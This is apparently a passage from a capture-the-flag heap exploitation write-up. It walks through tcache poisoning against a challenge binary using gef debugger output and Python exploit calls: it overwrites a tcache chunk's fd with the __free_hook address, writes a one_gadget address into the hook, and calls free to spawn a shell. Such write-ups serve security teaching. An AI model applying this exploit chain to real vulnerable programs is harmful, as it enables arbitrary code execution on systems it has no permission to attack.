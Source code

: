 ```asm
────────────────────────────────── Unsorted Bin for arena 'main_arena' ──────────────────────────────────
[+] unsorted_bins[0]: fw=0x55ab342e07f0, bk=0x55ab342e07f0
 →   Chunk(addr=0x55ab342e0800, size=0x530, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
```

If you pay close attention, the chunk of the `unsorted` bin is pointing to the address `0x55.....0800` and at the same time the `tcache bin[0]`'s chunk point to the `0x55....0810`, this proposed the idea of allocating a chunk of a size which will return the exact chunk pointed by the `unsorted` bin, that way we will be able to overwrite the `fd` of the `tcache` chunk `0x55......0810`.

```py
add(0x400,p64(0x00)*2 +p64(free_hook))
```

Doing that so, this will overwrite the `fd` of the chunk `0x55...810` to the address of the `free_hook`, for which we can get it in next allocation-

```asm
gef➤  heap bins tcache
────────────────────────────────── Tcachebins for arena 0x7fe15febfc40 ──────────────────────────────────
Tcachebins[idx=0, size=0x20] count=1  ←  Chunk(addr=0x55ab342e0810, size=0x0, flags=)  ←  Chunk(addr=0x7fe15fec18e8, size=0x0, flags=) 
Tcachebins[idx=5, size=0x70] count=255  ←  [Corrupted chunk at 0xfbad2887]

gef➤  p &__free_hook 
$60 = (void (**)(void *, const void *)) 0x7fe15fec18e8 <__free_hook>

```

We successfully overwritten the chunk `0x55..810`'s `fd` to the address of the `free_hook`, now we will just do two allocations, one will return the chunk `0x55..810` and the other one will give us the target i.e. `__free_hook`.

```py
add(0x10,"a")   # Gives the chunk 0x55....810
add(0x10,p64(one_gadget),1)  # Gives the __free_hook address and result in being overwritten with the one_gadget address
``` 
Given this, it'll result in the `__free_hook` being overwritten with the `one_gadget` address:-


```asm
gef➤  x/xg &__free_hook 
0x7fa27c4e18e8 <__free_hook>:	0x00007fa27c143432
```
Great, we successfully overwrote the `__free_hook` address, now we will just do `free(0)` which will just result in the `one_gadget` being called, spawning a shell:-

```py
free(0)
```

Now, we get a shell:-
